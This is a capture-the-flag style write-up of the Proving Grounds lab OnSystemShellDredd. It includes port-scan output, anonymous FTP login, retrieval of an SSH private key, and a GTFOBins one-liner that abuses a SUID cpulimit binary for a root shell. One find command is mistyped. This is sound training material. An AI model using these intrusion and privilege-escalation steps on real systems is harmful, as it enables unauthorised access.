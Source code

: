 * * *
 ### LAB: OnSystemShellDredd 
 ### PLATFORM: PG
* * *

### ENUMERATION

- Rustscan's scan result shows ftp running on port 21 and ssh running on port 61000.

        .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 192.168.178.130:21
      Open 192.168.178.130:61000
      
      PORT      STATE SERVICE REASON  VERSION
      21/tcp    open  ftp     syn-ack vsftpd 3.0.3
      |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:192.168.45.174
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 5
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      61000/tcp open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
      | ssh-hostkey: 
      |   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiOZxbr74TmNuWOBDmPInK6nZnRGfOMtZMJDBErXIPCZR9kdZDqJbkdRlnP8QLGuTl/t8qPgP863Rl1yfJLSv995PQ+oUZTSa21cGulVCtFFCKedJJJF9p2cAyYzjeA9qg1Ja7dOPtyPsSCplYzZcILwXZ52mg1k8VH2HUZ7DO0wMBYWONhkXWRR49gMN+IKge3DXNrfyHtnjMVWTwEtfqjFd+D70qi7UusZyfP2MogDX7LgRWC9RmvS6o8KxYW4psLWDB2dp/Nf3FitenY0UMPKkHrxxjeqfYZhFwENmHAsxzrHJo1acSrNMUbTdWuLzcLHQgMIYMUlmGvDkg31c/
      |   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNXNPAPJkUYF4+uu955+0RpMZKriG9olCwtkPB3j5XbiiB+B7WEVv331ittcLxibSBWqV2OO328ThebB2YF9qvI=
      |   256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP5tk066endR9DMYxXzxhixx6c8cQ0HjGvYbtL8Lgv91
      Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

- Anonymous login is enabled on ftp which means we can login with creds `anonymous:password`

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/2ca1f14a-860f-4dbc-b120-fb403a7376de)

- The ftp server contains a hidden directory with a ssh private key in it. I used `get <filename>` to download the file from the ftp server

  ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ff4f7e9f-d4e5-403a-bd2a-5420bd04a93f)

- We can login with a private with `chmod 600 <private_key>;ssh -i <private key> <user>@host`.Ssh access gained

 ![image](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/44be0f79-e5b5-4102-893b-86e11be09455)

  
 ### PRIVILEGE ESCALATION

- After running `find / -perm -u=s 2</dev/null`,I discovered that a binary cpulimit has a suid bit

   ![Uploading image.png…]()


- I got this one liner from gtfobins to escalate privileges

      cpulimit -l 100 -f -- /bin/sh -p

- Root access!!!!

  
